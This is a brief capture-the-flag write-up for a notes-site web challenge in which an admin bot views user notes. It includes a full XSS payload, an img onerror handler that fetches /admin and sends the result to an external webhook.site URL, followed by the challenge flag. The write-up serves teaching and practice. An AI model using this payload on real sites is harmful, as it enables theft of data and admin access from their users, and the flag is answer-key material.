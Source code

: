 ## Question
Just a Mavs fan trying to figure out what Nico Harrison cooking up for my team nowadays...

## Solution
Here we've given a site which looks like this.
![image](https://github.com/user-attachments/assets/78d7f66d-e6dd-443e-95b9-e4cd3eb8949c)

And an admin bot to make it visit the note.
![image](https://github.com/user-attachments/assets/d2c687ee-5b20-4cc1-8d25-ac9de02a3c33)


This is classic XSS, as when you write `<h1>Hello</h1>` in the note it comes out like this.
![image](https://github.com/user-attachments/assets/743d11af-f771-407c-ae78-2cdd144b48db)

And looking at the source code, this was our objective.
```python
app.get('/admin', (req, res) => {
    if (!req.cookies.secret || req.cookies.secret !== ADMIN_SECRET) {
        return res.redirect("/");
    }
    return res.json({ trade_plan: FLAG });
});
```

So we have to craft a payload.\
Using a webhook, we write the command `<img src="x" onerror="fetch('/admin').then(r => r.text()).then(d => new Image().src='https://webhook.site/<some webhook>?flag='+encodeURIComponent(d))">` into the note area, and make the admin view it, we get the flag.
![Screenshot (12)](https://github.com/user-attachments/assets/a06c1300-4119-4f75-8195-7e495f9ec983)

flag: `lactf{m4yb3_w3_sh0u1d_tr4d3_1uk4_f0r_4d}`

